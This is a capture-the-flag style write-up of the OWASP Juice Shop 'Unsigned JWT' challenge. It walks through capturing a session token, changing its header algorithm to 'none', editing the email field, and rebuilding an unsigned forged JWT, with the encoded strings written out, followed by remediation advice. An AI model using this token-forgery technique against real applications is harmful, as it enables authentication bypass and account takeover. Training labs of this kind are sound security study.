



# Juice-Shop Write-up: Unsigned JWT

## Challenge Overview

**Title:** Unsigned JWT  
**Category:** Broken Authentication  
**Difficulty:** ⭐⭐⭐⭐⭐ (5/6)

This challenge focuses on exploiting a vulnerability related to the improper verification of JSON Web Tokens (JWTs) in the application. The goal is to modify an existing JWT to bypass authentication checks without a valid signature.

## Tools Used

- **Web Browser:** For capturing and manipulating JWTs.
- **JWT.io:** A tool to decode, verify, and generate JWTs.
- **Base64 URL Encoder/Decoder:** To encode and decode Base64 URL strings manually (https://www.base64url.com/).

## Methodology and Solution

### Step 1: Understanding JWT

A JWT typically consists of three parts: Header, Payload, and Signature. The Header specifies the algorithm used for signing. 



There is a lot of vulnerability that can be exploited related to JWT, but the one that we will exploit arises from the server not validating the signature properly. In fact, in the header part, we specify with which algorithm we have encrypted our signature. But there is a case where server is misconfigured and allows this part to be equal to "none".

### Step 2: Capture and Decode a JWT

Logged into the Juice Shop application normally to capture a valid JWT, which is stored in the browser’s cookies under the name `token`. This JWT is used for subsequent authenticated requests to the server.

**Example JWT:**
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiJ1bmRlZmluZWQiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjQtMDQtMzAgMDc6MTI6MTMuMDAxICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjQtMDQtMzAgMDk6MTg6MDQuNzU5ICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTcxNDQ3NzE5NX0.GOsP9r-lbRSiABNxNec0YrfN0Nru4yVqJLyxkGOM_07R1hZHKPtaMI-1HvqBIJ5ycyOvDFO4gIwjcLOl6ktWkEcwcTHt0fzJKjaa3WpwkFOclL3wvccm0ZiDKBr2b4w6Fkfc0CphmcFSRRYq6lws-J1XUHsTl4QL14JfjEvVauQ
```

### Step 3: Manipulate JWT

Using JWT.io, I manipulated the JWT:
- **Header Change:** Modified the `alg` attribute from `RS256` (or similar) to `none`. This change suggests to the application that the token does not require verification.
- **Payload Modification:** Altered the `email` field to `jwtn3d@juice-sh.op` to meet challenges requirements.

**Forged JWT Example:**

We copy paste header and payload in clear text, seperatly, and we will copy paste them into a base 64 converter. 




Note that there is tools that made this automatically, but since we have set signature to none, I prefer to do it manually to avoid errors. 

For the header : 

```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0
```

For the payload : 
```
ewogICJzdGF0dXMiOiAic3VjY2VzcyIsCiAgImRhdGEiOiB7CiAgICAiaWQiOiAxLAogICAgInVzZXJuYW1lIjogIiIsCiAgICAiZW1haWwiOiAiand0bjNkQGp1aWNlLXNoLm9wIiwKICAgICJwYXNzd29yZCI6ICIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsCiAgICAicm9sZSI6ICJhZG1pbiIsCiAgICAiZGVsdXhlVG9rZW4iOiAiIiwKICAgICJsYXN0TG9naW5JcCI6ICJ1bmRlZmluZWQiLAogICAgInByb2ZpbGVJbWFnZSI6ICJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLAogICAgInRvdHBTZWNyZXQiOiAiIiwKICAgICJpc0FjdGl2ZSI6IHRydWUsCiAgICAiY3JlYXRlZEF0IjogIjIwMjQtMDQtMzAgMDc6MTI6MTMuMDAxICswMDowMCIsCiAgICAidXBkYXRlZEF0IjogIjIwMjQtMDQtMzAgMDk6MTg6MDQuNzU5ICswMDowMCIsCiAgICAiZGVsZXRlZEF0IjogbnVsbAogIH0sCiAgImlhdCI6IDE3MTQ0NzcxOTUKfQ==
```

We concatenate the strings to create the new JWT : {HEADER}.{PAYLOAD}.{SIGNATURE}
Please note that, even if signature is empty, you must keep the dot in order to make the JWT working.

So we finally have : 
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0. ewogICJzdGF0dXMiOiAic3VjY2VzcyIsCiAgImRhdGEiOiB7CiAgICAiaWQiOiAxLAogICAgInVzZXJuYW1lIjogIiIsCiAgICAiZW1haWwiOiAiand0bjNkQGp1aWNlLXNoLm9wIiwKICAgICJwYXNzd29yZCI6ICIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsCiAgICAicm9sZSI6ICJhZG1pbiIsCiAgICAiZGVsdXhlVG9rZW4iOiAiIiwKICAgICJsYXN0TG9naW5JcCI6ICJ1bmRlZmluZWQiLAogICAgInByb2ZpbGVJbWFnZSI6ICJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLAogICAgInRvdHBTZWNyZXQiOiAiIiwKICAgICJpc0FjdGl2ZSI6IHRydWUsCiAgICAiY3JlYXRlZEF0IjogIjIwMjQtMDQtMzAgMDc6MTI6MTMuMDAxICswMDowMCIsCiAgICAidXBkYXRlZEF0IjogIjIwMjQtMDQtMzAgMDk6MTg6MDQuNzU5ICswMDowMCIsCiAgICAiZGVsZXRlZEF0IjogbnVsbAogIH0sCiAgImlhdCI6IDE3MTQ0NzcxOTUKfQ.
```

In case of errors, depending on where you try to input this JWT, you can try to convert it in base 64 URL.


### Step 4: Testing the Forged JWT

Replaced the legitimate JWT in the browser’s cookie storage with the forged JWT inside a whoami API request, and observe answer from the API :



## Solution Explanation

The exploitation was successful due to the application's failure to enforce JWT signature verification. By altering the JWT header to specify no signing algorithm (`alg: none`), the application skipped the verification step, which should not occur.

## Remediation

- **Implement Signature Verification:** Ensure the application verifies the signature of JWTs against a known public key or secret. This prevents the use of forged tokens.
- **Disallow None Algorithm:** Configure the JWT library or framework to reject tokens that specify `"alg": "none"` or have an empty signature.
